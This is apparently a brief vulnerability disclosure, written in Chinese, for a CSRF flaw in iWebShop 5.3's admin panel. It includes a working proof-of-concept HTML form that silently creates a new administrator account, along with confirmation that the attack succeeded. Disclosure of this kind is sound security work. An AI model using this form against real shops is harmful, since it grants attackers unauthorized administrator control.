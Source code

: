 **iWebShop5.3后台存在CSRF漏洞**

1.在`管理员`->`添加管理员`功能处存在CSRF漏洞

![image](http://wx2.sinaimg.cn/mw690/0060lm7Tly1g0vg867mdmj30tz0nt75j.jpg)

POC

`<html>`

  <body>

  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.138.132/iw/index.php?controller=system&action=admin_edit_act" method="POST">
      <input type="hidden" name="id" value="" />
      <input type="hidden" name="admin&#95;name" value="test" />
      <input type="hidden" name="password" value="test888" />
      <input type="hidden" name="repassword" value="test888" />
      <input type="hidden" name="role&#95;id" value="0" />
      <input type="hidden" name="email" value="1&#64;qq&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
  `</body>`
`</html>`

验证

![image](http://wx1.sinaimg.cn/mw690/0060lm7Tly1g0vg868y55j31ef0il0v8.jpg)

发现可以添加后台管理员

官网链接

`http://www.aircheng.com/`

